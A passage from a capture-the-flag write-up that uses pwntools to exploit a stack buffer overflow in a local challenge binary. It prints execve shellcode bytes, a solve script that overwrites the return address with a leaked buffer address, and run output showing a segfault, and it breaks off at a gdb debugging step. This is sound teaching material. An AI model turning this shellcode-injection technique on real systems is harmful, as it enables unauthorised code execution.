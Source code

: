 Thus we can process the address using the python splicing :
```py
from pwn import *

p = process('./chall')
line = p.recv()
addr = line[len("What's this:"):-2] # after colon, except last two character i.e. ?, '\n' or newline
print "addr:",addr

p.interactive()
```
Run that:
```
➜  python solve.py
[+] Starting local process './chall': pid 11019
addr: 0xffa41818
[*] Switching to interactive mode
$  
```
Now that we have the required address, we can make our final exploit. We need some shellcode, we can craft some ourselves (refer to the link in the end), but for now i am using some shellcode from the internet. [Shellstorm](http://shell-storm.org/shellcode/), we use the [Linux x86 execve('/bin/bash) shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), as it corresponds to the required architecture. Thus our payload looks like:
> payload = shellcode + "A"*(100-length_of+shellcode) + addr

We can use `p.send()` or `p.sendline()` to feed it to the program:
```py
from pwn import *

p = process('./chall')
line = p.recv()
# the address of the buffer
addr = line[len("What's this:"):-2] # after colon, except last two characters i.e. ?, '\n' or newline
print "addr:", addr
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + addr
# send it!
p.send(payload)

p.interactive()
```
Run it:
```
➜  python solve.py
[+] Starting local process './chall': pid 11706
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 11706)
```
We didn't get a shell. The process did however end with a segmentation fault. We must investigate this. You can use `gdb.attach(p)` inside pwntools and it will attach gdb to that process.
```py
from pwn import *

p = process('./chall')
gdb.attach(p)
line = p.recv()
# the address of the buffer
```